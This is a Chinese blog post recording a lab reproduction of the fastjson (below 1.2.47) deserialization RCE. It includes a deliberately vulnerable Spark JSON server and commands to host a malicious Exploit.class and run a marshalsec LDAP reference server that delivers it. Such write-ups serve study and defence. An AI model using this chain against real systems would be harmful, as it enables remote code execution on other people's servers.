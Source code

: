 ```yaml
---
title: fastjson低于1.2.47 RCE 漏洞复现
slug: fastjson-under-1.2.47-rce
date: 2019-07-15 16:16:12
tags:
- Hacker
categories:
- Hacker
---
```



这两天爆出了 fastjson 的老洞，复现简单记录一下。

首先使用 spark 搭建一个简易的利用 fastjson 解析 json 的 http server。

<!--more-->

```java
package cn.hacktech.fastjsonserver;

import com.alibaba.fastjson.JSON;
import static spark.Spark.*;

public class Main {
    public static void main(String[] args) {
        get("/hello", (req, res) -> "spark server start success");
        post("/test", (req, res) -> {
            String payload = req.body();
            JSON.parse(payload);
            return "json payload：" + payload;
        });
    }
}
```

编译出来后，启动这个 jar，在 `/test` 这个 post 点即可 post json payload。

然后这里分两类：

1. 如果只是想检测漏洞是否存在，可以使用 dnslog 去检测
2. 利用的话，需要自己起一个恶意的 ldap 或者 rmi 服务

本机需要起一个 LDAP 服务和 http 服务

```
poc-->LDAP-->http
```

poc 会通过上面的路径去请求你的 http 服务上面的对应的 class 文件然后去解析执行这个 class

启动 LDAP 用的 marshalsec，会比较方便。

1. 在本目录下启动 http server 在 80 端口


```
python -m http.server 80
```

2. 启动 LDAP 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#Exploit
```

后面的 Exploit 是指 Exploit.class 文件

3. 运行 PoC，它会请求 LDAP 服务，或者直接把 json payload post 到 `/test`

```
java -cp fastjson-1.2.47.jar; PoC
```

其中代码编译的话，直接执行 `javac the.java` 即可，不过 PoC.java 的编译需要引入 fastjson jar 包，运行 `javac -cp ./fastjson-1.2.47.jar PoC.java`

具体的细节可见[代码打包文件](https://www.lanzous.com/i4zzqej)

## 复现遇到一些坑

这次的这个洞是有 jdk 版本要求的。

最开始我在我本机测试通过，原因是因为它请求不到 class 的时候会去本目录下进行一个查找，也就是并没有经过 http 服务器。

所以想要复现这个漏洞的话，需要 target 主机上面的 jdk 版本有严格的要求，具体见下图

![](https://raw.githubusercontent.com/akkuman/pic/master/img/20190716164141951_25963.png)

所以建议复现流程是

## 建议复现流程

1. 起一个虚拟机专门用来运行我写的那个简易的 fastjsonserver，或者你可以直接在虚拟机上面执行 PoC，关键在于 target 机器的 jdk 版本。
2. 你可以在本机起 ldap/rmi 服务以及 http 服务，或者全部在虚拟机上运行也可以，但是一般真实情况下我们是在外部构造恶意的 ldap/rmi 以及 http server，所以建议这步放到虚拟机外运行。
3. 根据你的网络环境修改 PoC。
4. 然后 post payload 或者运行 PoC，即可看到虚拟机上弹出了计算器。

**低版本的java 8u112**
链接: https://pan.baidu.com/s/1Q3lGG2b4I8aTXpQbmvK2dw 提取码: 36mm

**复现视频链接**：[复现流程.zip](https://www.lanzous.com/i50ip3g)